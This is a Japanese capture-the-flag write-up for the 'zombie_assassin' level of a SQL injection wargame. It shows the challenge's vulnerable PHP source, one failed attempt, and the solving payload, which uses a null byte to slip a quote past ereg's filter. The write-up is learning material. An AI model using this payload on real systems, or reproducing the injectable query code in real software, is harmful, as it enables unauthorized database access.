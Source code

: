 # zombie_assassin

## answer

```
https://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=1&pw=2%00%27%20or%20%271
```

## problem

```
query : select id from prob_zombie_assassin where id='' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=1&pw=2``とかで試してみる。

```query : select id from prob_zombie_assassin where id='1' and pw='2'```となった。

コードを読んでいく。

```
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```

細かいフィルターだが、いろいろ禁じられてはいる。

また、[troll](./troll.md)のときに紹介した現在非推奨の関数eregが再び出てきている。

```
if(@ereg("'",$_GET[id])) exit("HeHe"); 
if(@ereg("'",$_GET[pw])) exit("HeHe"); 
```

asciiは打ち込めそうなので、と同じ手法を使う。
'はchar(39)

```
?id=1&pw=2char(39)OR(1)
```

```
query : select id from prob_zombie_assassin where id='1' and pw='2char(39)OR(1)'
```

こうなって誰に見られてるわけでもないのに、ちょっと恥ずかった。違うっぽい。

じゃあどうやるのか。このコードの書き方には違和感があるので、eregの脆弱性を調べていた。

見つかったのは、eregのヌルバイト攻撃を許してしまう脆弱性というものである。
ヌルバイト攻撃とは、ASCIIコード0の文字（ヌル文字）を用いることでセキュリティチェックを無効化するという脆弱性だ。

```%00```に続いてexploitを注入する。エスクプロイトは以下のようになる。


```
?id=1&pw=2%00%27%20or%20%271
```

ZOMBIE_ASSASSINなので、ASSASIN関係あるのかなって思ってたらマジで何も関係なかった。

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [nullbytes attack|php manual](https://www.php.net/manual/ja/security.filesystem.nullbytes.php)

